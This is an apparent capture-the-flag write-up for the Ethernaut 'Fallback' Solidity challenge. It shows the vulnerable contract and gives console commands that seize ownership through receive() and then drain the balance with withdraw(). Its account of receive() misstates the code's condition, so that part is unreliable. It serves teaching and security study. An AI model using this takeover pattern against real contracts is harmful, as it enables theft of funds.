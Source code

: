 ### TASK

The task is to claim ownership of the contract and drain its balance to 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner() {
    require(msg.sender == owner, "caller is not the owner");
    _;
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The contract's funds can be drained by calling the "withdraw" function, and this function can only be executed by the address that is set as the "owner" variable. This function will transfer all of the contract's funds to the address set as the "owner".

### CODE VUNERABILITIES

##### The "contribute() function"

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if (contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

This function allows the msg.sender to send Ether to the contract, which will be added to the user's balance as tracked by the "contributions" mapping variable. If the total contribution made by the msg.sender is greater than the total contribution made by the current owner (as tracked by the "contributions" mapping variable), the msg.sender will become the new owner.
<br/>
This function could be vulnerable to a "frontrunning" attack, where an attacker can observe the transaction, and sends a larger amount of wei before the original transaction is mined, to become the new owner and some other vunerabilities.
<br/>

##### The 'recieve()' function

The "receive" function is a special function in Solidity that is automatically executed when a user sends Ether to a contract without specifying any data in the "data" field of the transaction. This function does not require any specific function signature and can be defined by the developer as any other function in the contract.

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

In the receive function, the owner is updated with msg.sender only if the amount of wei sent with the transaction is greater than 0, and the total contribution made by msg.sender in the contributions mapping is greater than the one made by the current owner.

##### STEPS TO EXPLOIT

1. We need to first contribute a small amount of ether(in wei) to the contract;

```
   await contract.contribute({from: player, value:toWei("0.0004")})
```

2. Activate the receive function by sending ether to the contract;

```
   await sendTransaction({from: player, value: toWei("0.0004"), to: instance, data: ""})
```

Now check the current owner, it should be your address

```
await contract.owner()
```

You can withdraw all the funds in the contract now by using;

```
  await contract.withdraw();
```

##### Conclusion

If an attacker can finds a way to change the value of the "owner" variable to their own address, they will be able to execute the "withdraw" function and drain all the funds from the contract. Therefore, it is important to ensure that the "owner" variable is protected and cannot be modified by unauthorized parties.

Link to Exploit Repo: [here](https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/Fallback.t.sol)
